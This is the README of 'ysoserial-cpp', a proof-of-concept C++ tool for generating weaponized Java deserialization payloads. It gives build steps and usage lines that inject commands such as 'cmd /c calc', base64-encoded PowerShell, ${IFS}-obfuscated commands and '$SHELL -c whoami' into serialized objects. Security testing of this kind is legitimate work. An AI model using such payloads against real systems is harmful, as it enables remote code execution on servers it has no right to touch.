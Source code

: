 # ysoserial-cpp


```
      .                                                                     ...                        ..    
  .x88888x.                                                ..           .zf"` `"tu               . uW8"      
 :8**888888X.  :>               u.    u.      u.    u.    @L           x88  day '8N.             `t888       
 f    `888888x./       .u     x@88k u@88c.  x@88k u@88c. 9888i   .dL   888k     d88&       u      8888   .   
'       `*88888~    ud8888.  ^"8888""8888" ^"8888""8888" `Y888k:*888.  8888N.  @888F    us888u.   9888.z88N  
 \.    .  `?)X.   :888'8888.   8888  888R    8888  888R    888E  888I  `88888 9888%  .@88 "8888"  9888  888E 
  `~=-^   X88> ~  d888 '88%"   8888  888R    8888  888R    888E  888I    %888 "88F   9888  9888   9888  888E 
         X8888  ~ 8888.+"      8888  888R    8888  888R    888E  888I     8"   "*h=~ 9888  9888   9888  888E 
         488888   8888L        8888  888R    8888  888R    888E  888I   z8Weu        9888  9888   9888  888E 
 .xx.     88888X  '8888c. .+  "*88*" 8888"  "*88*" 8888"  x888N><888'  ""88888i.   Z 9888  9888  .8888  888" 
'*8888.   '88888>  "88888%      ""   'Y"      ""   'Y"     "88"  888  "   "8888888*  "888*""888"  `%888*%"   
  88888    '8888>    "YP'                                        88F        ^"**""    ^Y"   ^Y'      "`      
  `8888>    `888            @h0ffy                               98"                                          
   "8888     8%                2025                             ./"                                            
    `"888x:-"                                                ~`                                            

```



## ysoserial-cpp ( PoC )
Implementation of object serializations an weaponizing in cpp similar functionalitity ( a lost day... than yoserial )

    @GNU GPL3 License ( JennyLab OpenSource )
    

    * Build
     ```
     g++ -std=c++17 -O2 -o ysoserial-cpp ysoserial.cpp
     ```

    * Payload inject execution commands abusing serialization
        `./ysoserial-cpp templates "cmd /c calc"`
    * Encoding
        `./ysoserial-cpp object1 "powershell -enc <base64_command>"`
    * Obfucation 
        `./ysoserial-cpp object2 "p\${IFS}ing\${IFS}8.8.8.8"`
    * Inyecting ENV
        `./ysoserial-cpp templates "\$SHELL -c 'whoami'"`



## Code "ysoserial-cpp.cpp"
    ```
        ysoserial.cpp   # ysoserial-cpp
        ├── JavaSerialization   # Constants and types
        ├── JavaPayloadGen # Main class to make and object in C++ to serialize this serialization with provide and destination in seralize... Seria... Lize!!!
    ```                                                           
